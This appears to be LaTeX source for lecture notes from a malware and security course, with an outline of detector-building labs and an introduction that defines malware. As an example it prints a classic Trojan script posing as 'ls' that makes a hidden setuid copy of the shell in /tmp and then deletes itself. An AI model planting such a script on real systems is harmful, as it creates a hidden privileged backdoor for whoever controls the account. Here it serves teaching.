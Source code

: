 \documentclass[]{project_plan}
\begin{document}
\begin{itemize}
\begin{itemize}
        \end{itemize}
  \item Lab 5 - Building a Machine Learning Detector
        \begin{itemize}
          \item Using hashes of features for detectors
          \item ROC Curves \& K-Fold Cross Validation for evaluating detectors
          \item performance metrics for detectors; the precision-recall curve, the confusion matrix and the F1 Score
        \end{itemize}
  \item Lecture 6 - Buffer Overflow, SQL Injection, and Cross-Site Scripting
        \begin{itemize}
          \item The layout of the call stack \& stack frames \& what occurs on the call stack when you call a function
          \item definition of a buffer,
        \end{itemize}
  \item Lecture 7 - Machine Learning for Malware Analysis \& Detection
        \begin{itemize}
          \item Definitions of ML
          \item Uses of ML - supervised and unsupervised (classification, regression, clustering)
        \end{itemize}
\end{itemize}

\newpage

\tableofcontents{}\newpage


\chapter{Lecture 1 - Introduction}

\textbf{Malware}\\
A malicious software, more commonly called malware, is a set of instructions that
cause a site’s \colorbox{green}{security policy to be violated}

\textbf{Example:} the following UNIX script is named \lstinline|ls| and is placed in a directory

\begin{lstlisting}
  #!/bin/sh
  # Make a privileged, hidden copy of the shell (command interpreter)
  cp /bin/sh /tmp/.xxsh
  chmod u+s, o+x /tmp/.xxsh
  # Do what the victim thinks is *all* you are doing
  ls $*
  # Delete this file
  rm ./ls
\end{lstlisting}
\end{document}
